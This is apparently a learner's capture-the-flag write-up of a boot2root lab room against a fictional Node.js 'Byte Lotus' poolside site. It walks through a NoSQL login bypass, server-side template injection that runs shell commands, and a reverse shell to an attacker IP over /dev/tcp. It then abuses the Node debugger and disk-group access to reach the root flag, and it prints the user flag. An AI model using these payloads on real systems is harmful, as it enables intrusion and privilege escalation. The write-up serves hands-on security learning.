## Day 7
### Do Not Disturb

#### Points 90 
#### Category Boot2Root

#### Difficulty Medium

#### Briefing:
Sign's on the door. Room's active. You have access you were never given, and so do he.

The anomalies stop being anomalies: a sessions goes warm on a sunbed, and a stranger sits down in it, a wallet signs a transaction its owner didn't authorize. a shell on the beach answers back. And it becomes clear that whoever's already inside has been moving for far longer than you have.

The byte Lotus poolside platform tracks every cabana, every sunbed, every warm session. Byte Lotus never forgets. Someone is already inside. Follow his footprints in, climb the way he climbed, and recover both flags.

#### Itinerary:
- [ ] Find the User Flag
- [ ] Find the root flag

#### write up

Target IP: 10.64.132.17

I have started setting up a modus operandi for these sorts of rooms:
```
mkdir day7 && cd day7
mkdir nmap
nmap -sC -sV -oN nmap/initial 10.64.132.17
```
so that I created a folder to hold anything I make about this room to look back at later and then an nmap directory to have with my initial nmap search. 

I saw there was an http so I checked it out and got to a log in screen.

I made a note that the username is automatically filled in with attendant and I ask myself if that is an actual user. I am debating using hydra to brute force but checking one other option before I commit to raising that many red flags.

I got back to terminal and tried 
`gobuster dir -u http://10.64.132.17 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_medium`

probably should have said gobuster_medium.txt but we live and we learn. I then checked what happens at /staff you get booted back and then check what happens at /logout and it redirects you to the log in screen. given the status codes being in the 400 range (I call the no access zone) and the 300 range (the redirect range that is not surprising.)

I decided to do one more scan for any extensions like .js or.html to see what other intel i can dig up before committing to a brute attempt we'll see if their is a more elegant way to do it. I checked the html for the page by hitting `ctrl+u`
```
<!doctype html>
<html lang="en"><head><meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<title>Byte Lotus &mdash; Poolside</title>
<style>
  :root{--sand:#f3ead7;--ink:#1c2b2d;--teal:#0f6f6a;--coral:#e0795b;}
  *{box-sizing:border-box}
  body{margin:0;font:16px/1.5 -apple-system,Segoe UI,Roboto,sans-serif;color:var(--ink);
       background:linear-gradient(160deg,#fdfaf3,#f3ead7 60%,#e7dcc4);min-height:100vh}
  .wrap{max-width:560px;margin:0 auto;padding:64px 24px}
  .lotus{letter-spacing:.35em;text-transform:uppercase;font-size:12px;color:var(--teal)}
  h1{font-size:40px;margin:.2em 0 .1em}
  .sub{color:#5a6b6c;margin-top:0}
  .card{background:#fffdf8;border:1px solid #e7dcc4;border-radius:14px;padding:24px;margin-top:28px;
        box-shadow:0 10px 30px rgba(28,43,45,.06)}
  label{display:block;font-size:13px;color:#5a6b6c;margin:10px 0 4px}
  input,textarea{width:100%;padding:10px 12px;border:1px solid #d7cbb2;border-radius:9px;background:#fff;font:inherit}
  textarea{min-height:120px;font-family:ui-monospace,Menlo,monospace}
  button{margin-top:16px;background:var(--teal);color:#fff;border:0;border-radius:9px;
         padding:11px 18px;font:inherit;cursor:pointer}
  button:hover{background:#0c5a56}
  .muted{color:#8a8170;font-size:13px}
  pre{background:#10201f;color:#dfeee9;padding:14px;border-radius:9px;overflow:auto}
  a{color:var(--teal)}
</style></head><body><div class="wrap">
    <div class="lotus">&mdash; poolside &mdash;</div>
    <h1>Byte&nbsp;Lotus</h1>
    <p class="sub">Reserve a cabana. Claim a sunbed. The pool remembers your usual.</p>
    <div class="card">
      <form method="post" action="/login">
        <label>Staff / Guest ID</label>
        <input name="username" autocomplete="off" placeholder="attendant">
        <label>Passphrase</label>
        <input name="password" type="password" autocomplete="off">
        <button type="submit">Sign in</button>
        
      </form>
    </div>
    <p class="muted" style="margin-top:18px">Byte Lotus never forgets &middot; Stay Noticed&trade;</p></div></body></html>
```

I did learn that the username was only a placeholder and not really there so I tried a couple default credential that did not work. So I decided to use Burp Community Suite interceptor and Foxy Proxy to test logging in with a js NoSQL injection. so I copied a common NoSQL injection I found on google and filled in the expected username

`username=attendant&password[$ne]=`

and when I forwarded it I saw on burp a line 
`GET http://10.64.132.17/staff` and now I am in.



and uhoh it looks like they left a user input screen here. I think I need to find a way to maybe exploit that.... Problem, I have no clue how to do anything in JS.


Say "Thank you Google Ai Overview"
to test the workaround I tried enter `7 * 7` into those tags.

and time for some real looking at server side information


at this point I have 5 mins left and it won't extend the timer for me so I gotta try to rush

Full disclosure at this point I had some technically difficulties that wound up forcing me to log out of THM and log back in losing my files and machines the new target ip is
`10.65.187.139`

I had to find this script to run: `<%=global.process.mainModule.require("child_process").execSync("id").toString()%>`

this next part felt like Dr. Strange chanting in my ear. I had done the reverse shell thing before so I knew the `bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<netcat port> 0>&1`' portion but wrapping it in the same syntax of Node.JS was a challenge.

`<%=global.process.mainModule.require('child_process').exec("bash -c 'bash -i >& /dev/tcp/10.65.86.139/4444 0>&1'")%>`

had to do some rooting around I tried to find user.txt with a find function but was not having any luck so I just went to the home directory and then guessed poolside directory inside that because of the name of the service.

THM{w4rm_s3ss10n_h1j4ck3d}

now time to escalate privileges and see if we can find the root flag.

the escalations are always confusing to me. so I am writing it for a five year old for my benefit later.

#### ss
displays network sockets
#### -tlnp
TCP, listen, display ports and processes.

this one is on node.js so the port I am targeting is 9299 the node.js port

`ss -tlnp | grep 9229`

#### ps
show every process

I am looking for a debug tool related to INSPECT 

so now I am going to talk to the loopback on that port for json to inspect things 

now I am going to need to reverse shell in again to escalate privileges

 ... Okay full disclosure the reverse shell scripts I did try did not seem to be working at all eventually the debugger inspect function I was supposed to be able to use to get into the root shell no longer showed up on the list of processes. I had to try to explore other options for getting the flag.
I restarted a couple days later and quickly reassess the reverse shell to poolside through the foxyproxy and burp exploit. and did not do any more digging for now instead found a tutorial on medium that I will try to follow and see if that will get me cracked in.

From the poolside shell I ran `node inspect 127.0.0.1:9229` to access the debug tool and then ran `REPL` the REPL provides an interactive JS console, allowing you to evaluation JS expression within the context of the running process. the tutorial runs ```

```
process.getuid()
process.getgid()
```
to prove the uids and pids are different. mine turned out the same as they were before but I Think that is probably because I have restarted the room 4 times because of time constraints.

then we run
```
process.getBuiltinModule('child_process').execSync('id').toString()
```
that didn't work this time.. scrolling up and down and realized my error. I am leaving it in the write up because I connected the dots. and maybe this will help next time.. 
I never ran repl and that's why `process.getuid()` and `process.getgid()` yielded the wrong result. I ran repl and wound up with the same screen as him. 

it was here I decided "Hey I should teach myself again about UID and GID" I had gotten myself mixed up with PID the UID and GID should not be effected by the timing of actions, obviously.

UID => USER ID the unique id number for a specific user. like 0 for root or 996 for poolside or 995 for the debugger REPL.

GID => GROUP ID a number that represents which linux group a process belongs to. 

now here we can see where I made the mistake of not accessing the repl and the results of those commands and then when I remembered to repl and the results and now we know we are accessing a different user's permissions, most importantly containing the `disk` group now I may finally be able to get the flag and move on to the next room.

we are going to try the command:
```
process.getBuiltinModule('child_process').execSync('ls -l /dev/sd* /dev/vd* /dev/nvme* /dev/mapper/* 2>/dev/null || true').toString()
```

this will attempt to list block devices on the system like SATA/SCSI disks, Virtual Disks, NVME SSDs, encrypted volumes. and then tells it to not bother me with any error messages if the paths do not exist.

and then the `|| true` makes it so if it fails it won't break the command.

Since the node.js service belongs to the disk group it has permission to open the raw block data. `debugfs` reads the filesystem directly from that device rather than opening `/root/root.txt`

and we finally did it:

### closing thoughts
I learned a ton about dealing with JS scripting. Got an important refresher on PID vs UID vs GID. I think the lesson I walked away with was to always be careful what user you are giving permission to inject Terminal commands with JS.  and to ensure proper sanitization of user input fields. in my cyber security studies and these rooms that feels like a common trend. the exploits are often a reverse shell script through a user input field that makes the target device contact the attackbox. 